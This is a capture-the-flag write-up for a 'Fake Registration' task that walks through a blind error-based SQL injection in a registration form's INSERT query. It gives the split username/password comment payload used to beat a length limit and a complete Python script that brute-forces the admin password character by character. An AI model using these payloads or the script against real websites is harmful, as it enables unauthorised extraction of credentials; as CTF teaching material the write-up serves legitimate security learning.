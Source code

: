 # Fake Registration

## Problem

Do you think this is really the TMUCTF registration form?!

[Task file](files/fake-registration.zip)

## Solution

We are given source code of a website, at the initialization stage the flag is set as `admin` password. Also, we can see an obvious SQL-injection:

```python
...
sql = f"INSERT INTO `users`(username, password) VALUES ('{username}', '{password}')"
...
db.execute_sql(sql)
```

Both `username` and `password` aren't sanitized - just user input as-is. There are two factors that makes this a bit harder to exploit:

  - Both parameters must not be longer than 67 characters
  - It is blind error-based injection

First one can be bypassed by commenting out values separator, like so:

```
username=a',(first part of subquery here/*
password=*/second part of subquery here))--
```

So we get 134 characters, that is more than enough in this case.

Second one could be exploited using null constraint, which doesn't allow us to have empty password upon insert. So, we can query password of `admin` character by character, we get an error on a miss and successfull registration upon success. This leads to one more nuance: we should generate unique username as we are actually registering a user upon successfull character guess. So, we can bruteforce the flag with script like this one:

```python
import requests
import string

task_url = "http://task-url"
alphabet = string.printable;
curflag = ""
i = 1
while True:
    for alpha in alphabet:
        username = "a'||random(),(select 1 from users where username='admin' and /*"
        password = "*/ substr(password,"+str(i)+",1)='"+alpha+"'))--"

        r = requests.post(task_url, data={"username":username,"password":password})
        response = str(r.content);

        if (response.find('successful') != -1):
            curflag += alpha
            print(curflag)
            i = i + 1
            break
```

## TL;DR

 - Blind error-based sql-injection
